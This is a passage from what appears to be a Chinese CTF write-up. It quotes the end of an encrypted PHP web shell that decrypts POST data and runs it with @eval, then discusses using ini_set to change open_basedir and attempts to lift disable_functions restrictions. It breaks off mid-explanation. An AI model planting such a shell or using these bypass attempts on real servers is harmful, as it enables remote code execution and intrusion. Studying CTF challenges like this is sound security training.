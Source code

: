 >                 $post=openssl_decrypt($post, "AES128", $key);
>         }
>     $arr=explode('|',$post);
>     $func=$arr[0];
>     $params=$arr[1];
>     @eval($params);
> }
> ?>
> 
> ```
>
> # 问题
>
> ## INI_SET
>
> 1. 函数主体`ini_set`引起我的注意，可以看到在最后函数使用`ini_set`来设置`open_basedir`。这之前的代码并没有特别的操作只是在跳目录，那么这些代码是否能够省略，从而直接通过`ini_set`设置`open_basedir`呢？我进行了尝试发现不可以。问题后面会提。我又想到既然`ini_set`可以设置`php.ini`内的设置项，那么可不可以直接通过脚本来设置`disable_functions`为空从而绕过`disable_functions`的限制呢？我又进行了尝试发现还是不可以，不过在我意料之中。我只能查看官方文档，发现了一些东西：
>
>    ![img](ctfshow%E9%A2%98%E8%A7%A3.assets/8e7b335dd54131a65f1a20905828d931.png)
>
>    果然，不是所有的配置选项都可以通过`ini_set`在脚本中设置。在[附录](https://www.php.net/manual/zh/ini.list.php)中指定了各个配置能够以怎样的方式进行修改。
>
>    ![img](ctfshow%E9%A2%98%E8%A7%A3.assets/b2d386d4d6fd8416108293fbb4ccd615.png)
>
>    `disable_functions`和`open_basedir`可修改的范围分别为`php.ini only`和`PHP_INI_ALL`。`disable_functions`可被修改的范围只能是`php.ini`（之前的不能通过`ini_set`绕过`disable_functions`的困惑解决）。`PHP_INI_ALL`代表的含义如下
>